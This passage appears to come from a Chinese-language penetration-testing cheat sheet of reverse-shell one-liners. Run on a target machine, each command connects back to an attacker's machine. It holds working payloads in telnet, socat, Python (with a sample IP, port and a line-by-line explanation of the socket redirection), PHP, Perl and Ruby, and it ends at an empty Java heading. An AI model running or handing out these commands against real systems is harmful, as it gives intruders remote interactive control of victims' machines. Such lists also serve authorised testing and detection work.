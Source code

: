 - 
    靶机：


```bash
telnet [攻击机ip] [port1] | /bin/bash | telnet [攻击机ip] [port2]
```

**socat反弹**

```bash
socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:[攻击机ip]:[port]
```

**python反弹**

~~~bash
python -c "import os,socket,subprocess;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(('192.168.239.128',7777));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call(['/bin/bash','-i']);"

#首先使用socket与远程建立起连接，接下来使用到了os库的dup2方法将标准输入、标准输出、标准错误输出重定向到远程，dup2这个方法有两个参数，分别为文件描述符fd1和fd2，当fd2参数存在时，就关闭fd2，然后将fd1代表的那个文件强行复制给fd2，在这里可以把fd1和fd2看作是C语言里的指针，将fd1赋值给fd2，就相当于将fd2指向于s.fileno()，fileno()返回的是一个文件描述符，在这里也就是建立socket连接返回的文件描述符。于是这样就相当于将标准输入(0)、标准输出(1)、标准错误输出(2)重定向到远程(3)，接下来使用os的subprocess在本地开启一个子进程，传入参数“-i”使bash以交互模式启动，标准输入、标准输出、标准错误输出又被重定向到了远程，这样的话就可以在远程执行输入命令了。
~~~

**php反弹**

- **前提**：php需要关闭safe_mode选项，才能使用php的exec函数执行反弹shell的命令。

~~~bash
php -r 'exec("/usr/bin/bash -i >& /dev/tcp/[攻击机ip]/[port] 0>&1");'
有时变形为
php -r '$sock=fsockopen("[攻击机ip]",[port]);exec("/bin/bash -i <&3 >&3 2>&3");'
~~~

**perl反弹**

Perl一种功能丰富的计算机程序语言，运行在超过100种计算机平台上，适用广泛，从最初是为文本处理而开发的，现在用于各种任务，包括系统管理，Web开发，网络编程，GUI开发等。

~~~bash
perl -e 'use Socket;$i="ip"$p=port;
socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
~~~

**Ruby反弹**

- Ruby，一种简单快捷的面向对象（面向对象程序设计）脚本语言。


```bash
ruby -rsocket -e'f=TCPSocket.open("[攻击机ip]",[port]).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
```

**java反弹**

- 编写执行反弹shell命令的java恶意类，例如：

